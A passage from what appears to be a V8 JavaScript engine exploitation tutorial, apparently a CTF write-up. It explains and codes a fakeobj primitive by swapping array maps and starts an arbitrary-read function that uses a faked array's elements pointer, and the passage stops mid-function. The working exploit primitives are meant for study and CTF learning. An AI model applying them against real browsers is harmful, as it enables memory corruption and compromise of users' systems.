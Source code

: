 Perfect, it corresponds exactly!

### Creating Fake Objects

The opposite of the `addrof` primitive is called a `fakeobj` primitive, and it works in the exact opposite way - we place a memory address at an index in the **float** array, and then change the map to that of the **object** array.

```javascript
function fakeobj(addr) {
    float_arr[0] = itof(addr);  // placed desired address into index 0
    float_arr.oob(map_obj);     // change to object map
    let fake = float_arr[0];    // get fake object
    float_arr.oob(map_float);   // swap map back
    return fake;                // return object
}
```

### Arbitrary Reads

From here, an arbitrary read is relatively simple. It's important to remember that whatever `fakeobj()` returns is an **object**, not a read! So if the data there does not form a valid object, it's useless.

The trick here is to create a float array, and then make the first index a pointer to a **map** for the float array. We are essentially **faking** an array object inside the actual array. Once we call `fakeobj()` here, we have a valid, faked array.

But why does this help? Remember that the third memory address in a `JSArray` object is an `elements` pointer, which is a pointer to the list of values actually being stored. We can modify the `elements` pointer by accessing index `2` of the real array, faking the `elements` pointer to point to a location of our choice. Accessing index `0` of the fake array will then read from the fake pointer!

\[TODO image, but not sure what exactly would help]

Because we need an index `2`, we're going to make the array of size 4, as 16-byte alignment is _typically_ nice and reduces the probability of things randomly breaking.

```javascript
// array for access to arbitrary memory addresses
var arb_rw_arr = [map_float, 1.5, 2.5, 3.5];
console.log("[+] Address of Arbitrary RW Array: 0x" + addrof(arb_rw_arr).toString(16));
```

Now we want to start an `arb_read()` function. We can begin by tagging the pointer, and then placing a `fakeobj` at the address of the `arb_rw_arr`:

```javascript
function arb_read(addr) {
    // tag pointer
    if (addr % 2n == 0)
        addr += 1n;

    // place a fake object over the elements FixedDoubleArray of the valid array
    let fake = fakeobj(addrof(arb_rw_arr));
}
```
